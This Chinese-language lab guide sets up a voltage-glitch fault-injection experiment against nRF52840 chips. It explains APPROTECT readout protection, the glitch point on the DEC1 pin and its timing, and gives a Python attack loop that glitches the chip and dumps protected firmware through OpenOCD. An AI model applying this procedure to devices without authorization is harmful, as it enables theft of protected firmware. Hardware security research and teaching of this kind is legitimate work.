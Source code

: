 # 实验环境搭建



## 推荐硬件设备清单

- nRF52840 QIAAD0 开发板（USB Dongle）
- Pico 示波器
- PowerShorter 电压短路故障注入设备
- FlexHolder 柔性探针台
- Jlink 调试器
- 杜邦线若干



## 软件清单

- [Jlink 软件及驱动](https://www.segger.com/downloads/jlink/)
- [nRF-Command-Line-Tools](https://www.nordicsemi.com/Products/Development-tools/nRF-Command-Line-Tools)
- [openocd](https://github.com/xpack-dev-tools/openocd-xpack/releases)
- [Pico 示波器软件](https://www.picotech.com/downloads)
- [zadig](https://zadig.akeo.ie/)

------

# APPROTECT 介绍与开启

nRF52 系列芯片为保护开发者固件不被非法读取，提供了 APPRTOECT 固件读保护机制，开启读保护后无法使用 SWD 接口读取芯片内的固件



## 开启保护方法

先使用 Jlink 连接 目标 SWD 接口

| **Jlink** |
| --------- | --------- |
| VDD       | VT/VREF   |
| GND       | GND       |
| SWCLK     | TCK/SWCLK |
| SWDIO     | TMS/SWDIO |



使用官方命令行工具（nRF-Command-Line-Tools）执行如下命令，对开发板重新上电复位后生效：

```
nrfjprog -f nRF52 --memwr 0x10001208 --val 0xFFFFFF00
```



再次连接芯片已无法查看 Flash

![image-20241210105012402](./img/image-20241210105012402.png)



## 解除保护方法

不管是 Jflash 还是官方命令行工具都提供解除保护的功能（代价是清除芯片内固件，以达到保护固件不被非法读取的目的）

JFlash 软件在探测到保护开启时直接点击 Yes 即可解除保护

![image-20241210105116600](./img/image-20241210105116600.png)

官方命令行工具提供 ```nrfjprog -f NRF52 --recover``` 命令解除保护



## APPROTECT 介绍

通过阅读[芯片手册第 42 页](https://infocenter.nordicsemi.com/pdf/nRF52840_PS_v1.2.pdf)可以得知：APPROTECT 寄存器位于 0x10001208 默认值 0xFF 表示关闭保护，若写为 0x00 则表示开启保护，因此官方工具开启保护实际是将该寄存器写为了 0x00

芯片上电后会读取该寄存器的值，若为 0x00 则配置保护机制，不允许通过 SWD 接口访问芯片内固件，因此我们可以在芯片上电时对其进行故障注入，绕过该配置流程，使得调试接口保持开启状态

------

# 故障注入绕过 APPROTECT 读保护



## 电压毛刺注入物理位置：CPU 核心供电

电压故障注入攻击点位于芯片附近的一颗小电容的右侧，该点连接到芯片 DEC1 引脚（电容左侧通过万用表可测得为 GND）

![image-20241210105935824](./img/image-20241210105935824.png)



## 电压毛刺注入时间位置

使用示波器以 DEC1 上升沿作为触发，观察 DEC1 处电压波形，可以看到存在一个小的电压下降沿，压降大约 100~200mv，毛刺就打在这个小下降沿附近

![image-20241210110057903](./img/image-20241210110057903.png)



## 其他问题

1、如何控制设备重启

​	答：通过 PowerShorter 设备的 GPIO 为 Dongle 供电，Python 代码控制 GPIO

2、打哪个地方的电压、如何打

​	答：打 DEC1；短接 DEC1 和 GND 使其电压短暂拉低

3、什么时候打故障

​	答：以 GPIO 供电上升沿作为触发，设置延时，故障打在 DEC1 下降沿附近

4、怎么判断是否打成功了

​	答：openocd 连接 SWD 读取固件，dump 成功则故障注入成功（注：Openocd 调用 jlink 需要使用 zadig 软件安装 winusb 驱动）



**配合 Flex Holder 柔性探针台可以免去焊接，直接将小电容右侧的 DEC1 引脚引出**

![image-20241210110621643](./img/image-20241210110621643.png)

![image-20241210110628584](./img/image-20241210110628584.png)



## 成功波形参考

A 通道(蓝色波形)为供电电压；B 通道(红色波形)为 DEC1 电压

DEC1 的下降沿位置恰好被故障毛刺命中，不再表现为下降沿，但并不是没有下降沿就为成功

![image-20241210110739940](./img/image-20241210110739940.png)



## 攻击脚本

**推荐使用 Jupyter Lab 进行实验**

导入 Python 库

```
from power_shorter import *
import time, os, random, subprocess
import serial
import faultviz
```

初始化设备

```
ps_dev = PowerShorter('com55')
```

测试设备上下电

```
ps_dev.gpio(GPIO.GPIO1, 0)
time.sleep(1)
ps_dev.gpio(GPIO.GPIO1, 1)
```

初始化 faultviz 服务与表单

```
faultviz.start_view_service(port=12345) 
vt = faultviz.ViewWidget()
```

定义攻击函数

```
def nrf52_attack():
    ps_dev.gpio(GPIO.GPIO1, 0)
    time.sleep(1)
    glitch_delay = random.randint(158500, 158700) # 设置毛刺延迟范围
    glitch_pulse = random.randint(100, 300)       # 设置毛刺宽度范围
    ps_dev.engine_cfg(Engine.E1, [(0, glitch_delay), (1, glitch_pulse), (0, 1)], TRIGGER_MODE.RISE)    # 设置毛刺延时及宽度
    ps_dev.arm(Engine.E1)        # 激活毛刺
    ps_dev.gpio(GPIO.GPIO1, 1)   # 设备上电
    time.sleep(0.5)              # 延迟一段时间 等待攻击完成
    s = ps_dev.state(Engine.E1)  # 检查毛刺状态
    if s == "glitched":
        res, result = subprocess.getstatusoutput('openocd -f interface/jlink.cfg -c "transport select swd" -f target/nrf52.cfg -c "init;dump_image nrf_flash.bin 0x0 0x10000;exit"')  # 通过 OpenOCD dump 固件，若成功则表示已绕过 APPROTECT
        if "Could not find MEM-AP to control the core" in result:
            status = "Normal"
        elif "No J-Link device found" in result:
            status = "No Jlink"
        elif res == 0:
            status = "Success"
        else:
            status = "Unknown"
        vt.update(state = status, delay = glitch_delay, pulse = glitch_pulse, result = result, res = res)  # 更新故障结果到表单
        return res
    else:
        print("no trigger")
```

执行一次攻击函数，检查代码是否有问题

```
nrf52_attack()
```

查看表单，检查刚才的攻击是否将结果添加到表单中

```
vt.show()
```

写个循环，直到成功绕过 APPROTECT 才停止攻击，循环过程中故障参数及结果会不断添加到 vt 表单中，配合示波器调整参数，优化毛刺位置

```
doAttack = 1
while(doAttack):
    doAttack = nrf52_attack()
```



